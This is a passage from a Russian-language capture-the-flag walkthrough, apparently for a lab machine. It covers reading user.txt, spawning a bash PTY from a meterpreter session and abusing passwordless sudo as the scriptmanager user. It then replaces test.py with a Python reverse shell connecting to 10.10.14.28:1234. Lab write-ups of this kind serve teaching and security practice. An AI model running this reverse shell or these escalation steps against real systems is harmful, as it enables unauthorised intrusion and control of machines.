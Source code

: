 Внутри папки home находится директория arrexel, в которой находится файл user.txt. Для просмотра содержимого файла user.txt используем команду cat. 

```bash
cd arrexel
ls
cat user.txt
```

Прекрасно! Первая часть задачи решена.

![[Pasted image 20230704135545.png]]

Для создания еще одного экземпляра tty-шелла на целевой системе нам нужно импортировать python-файл. Я запустил следующую команду внутри meterpreter-сессии.

```
shell
python -c 'import pty;pty.spawn("/bin/bash")'
lsb_release -a
```

![[Pasted image 20230704135621.png]]

Запускаем команду ls -al command для просмотра прав доступа всех директорий. Замечаем, что пользователь scriptmanager имеет права для доступа к директории /scripts.

![[Pasted image 20230704140034.png]]
![[Pasted image 20230704140045.png]]

Если мы попытаемся зайти в директорию /scriptsот имени обычного пользователя, появится сообщение «Permission Denied». 

Запускаем команду run sudo –l, которая сообщит нам, что у пользователя scriptmanager отсутствует пароль.

Затем запускаем следующие команды от имени пользователя scriptmanager:

```bash
sudo -u scriptmanager ls /scripts
sudo -u scriptmanager cat /scripts/test.py
sudo -u scriptmanager cat /scripts/test.txt
```

Поскольку мы нашли python-файл, нужно заменить оригинальный test.py на вредоносный python-файл для создания обратного соединения через netcat. Для начала нужно сохранить следующий код в текстовом файле:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Сохраняем файл с расширением .py, загружаем в систему жертвы и запускаем netcat на порту, где происходит прослушивание.
